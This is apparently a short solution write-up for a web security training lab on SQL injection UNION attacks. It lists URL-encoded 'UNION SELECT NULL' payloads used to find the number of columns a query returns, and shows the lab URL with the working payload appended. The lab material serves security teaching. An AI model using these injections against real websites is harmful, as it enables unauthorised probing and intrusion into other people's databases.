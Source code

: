 # Lab: SQL injection UNION attack, determining the number of columns returned by the query
## Description

Exercise is simply to identify the number of columns used by the query.



## Solution
By appending the SQL injections below its possible to identified the number of columns used in the SQL query triggered by this URL: `https://ac701fc41fea9e6cc046118300c4008e.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories` 


```
'+UNION+SELECT+NULL--
'+UNION+SELECT+NULL,NULL--
'+UNION+SELECT+NULL,NULL,NULL--
```

The final injection returned the webpage as normal:

`https://ac701fc41fea9e6cc046118300c4008e.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories'+UNION+SELECT+NULL,NULL,NULL--`